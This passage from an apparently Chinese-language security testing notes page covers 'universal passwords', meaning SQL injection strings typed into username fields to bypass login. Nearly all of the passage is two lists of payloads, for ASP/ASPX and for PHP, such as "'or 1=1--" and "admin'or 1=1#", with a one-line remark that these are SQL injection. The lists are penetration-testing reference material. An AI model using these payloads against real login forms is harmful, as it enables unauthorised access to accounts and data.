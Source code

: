 ## 2.4. 用户名相关

这个更多的是在用户名出可能会出现的。

### 2.4.1. 万能密码

这个其实就是sql注入，这个就不说了，百度一搜一大堆。

```
asp aspx万能密码
 
1：  "or "a"="a
2：  '.).or.('.a.'='.a 
3：  or 1=1--
4：  'or 1=1--
5：  a'or' 1=1--
6：  "or 1=1--
7：  'or.'a.'='a
8：  "or"="a'='a
9：  'or''='
10： 'or'='or'
11： admin'or 1=1#
```

```
PHP万能密码
 
admin'/*
密码*/'
 
'or 1=1/*
"or "a"="a
"or 1=1--
"or"="
"or"="a'='a
"or1=1--
"or=or"
''or'='or'
') or ('a'='a
'.).or.('.a.'='.a
'or 1=1
'or 1=1--
'or 1=1/*
'or"="a'='a
'or' '1'='1'
'or''='
'or''=''or''='
'or'='1'
'or'='or'
'or.'a.'='a
'or1=1--
1'or'1'='1
a'or' 1=1--
a'or'1=1--
or 'a'='a'
or 1=1--
or1=1--
```
